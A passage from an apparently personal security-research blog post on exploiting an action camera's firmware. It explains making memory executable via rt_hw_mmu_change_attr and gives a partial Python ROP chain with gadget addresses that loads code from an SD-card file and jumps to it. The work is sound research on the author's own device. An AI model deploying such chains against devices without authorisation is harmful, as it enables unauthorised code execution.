 When looking at other places this function is used, I came across the **dlmodule_load_shared_object** function. Shared objects are executable code, so this will save us some reversing time if we steal the attributes value from this:

![attr_value.png](/assets/images/analysing_an_action_camera_part_4/attr_value.png)

The parameters are as follows:
- **va_start**: Virtual start address
- **pa_start**: Physical start address
- **size**: Size of memory to change attribute
- **attr**: New memory attribute

So all our ROP-chain needs to do is allocate some memory, get some code we control into it, and call **rt_hw_mmu_change_attr** on the memory to make it executable, then jump to it!

## Writing the Chain

When it comes to writing the chain, I still have to decide where the data is going to be loaded from:
- Maybe open a socket and send it in like I did with the camera?
- Somehow get a large chunk of data into global memory?
- Use the file write primitive we have and read the file into memory?

I ended up going with the last option, here is the secondary ROP-chain which does the following:
- Call **malloc_aligned** to get an aligned buffer (requirement of the memory attribute change)
- Use **rt_hw_mmu_change_attr** to make the allocated buffer executable
- Next call **fopen** to open the **/mnt/sdcard/test.aac** file (which we wrote earlier)
- With the file opened, we read it into the aligned buffer
- Finally, we branch to the buffer!

```
-python
rop_chain = p32(0xc03edf14) # pc

## do the initial malloc and save it somewhere (0x110 at the moment)

# | 0xc03edf14 | ldmia sp!,{r4,r5,r6,r7,r8,r9,r11,pc} |
rop_chain += p32(0xc00a5a90) # r4
rop_chain += p32(0xc01a724c) # r5 <- function to call here (rt_malloc_align)
rop_chain += p32(0x00002000) # r6 <- size of allocation
rop_chain += p32(0x00001000) # r7 <- alignment value
rop_chain += p32(0xc0473224) # r8
rop_chain += p32(0xc0450540) # r9
rop_chain += p32(0x00000000) # r11
rop_chain += p32(0xc0588e9c) # pc

# | 0xc0588e9c | c0588e9c | mov r0,#0x0 | c0588ea0  | ldmia sp!,{r11,pc} | 
rop_chain += p32(0x00000000) # r11
rop_chain += p32(0xc009c29c) # pc

# | 0xc009c29c | c009c29c | cpy r1,r7 | c009c2a0  | blx r4 | 
# | 0xc00a5a90 | c00a5a90 | cpy r0,r6 | c00a5a94 | blx r9 |
# | 0xc0450540 | c0450540 | cpy r3,r5 | c0450544 | blx r8 | 

# | 0xc0473224 | blx r3 | c0473228 | ldmia sp!,{r3,r4,r5,r6,r7,r8,r9,r10,r11,pc} | <- does the function call
rop_chain += p32(0xc04fe360) # r3
rop_chain += p32(0xc00d2838) # r4
rop_chain += p32(0x00000000) # r5
rop_chain += p32(0x80000000) # r6 <- subtract from our buffer to get physical memory
rop_chain += p32(0xc0024820) # r7
rop_chain += p32(0xc008f514) # r8 
rop_chain += p32(0xc019ca6c) # r9 <- address of `rt_hw_mmu_change_attr`
rop_chain += p32(0x00002000) # r10 <- this is the size argument of the change attr function
```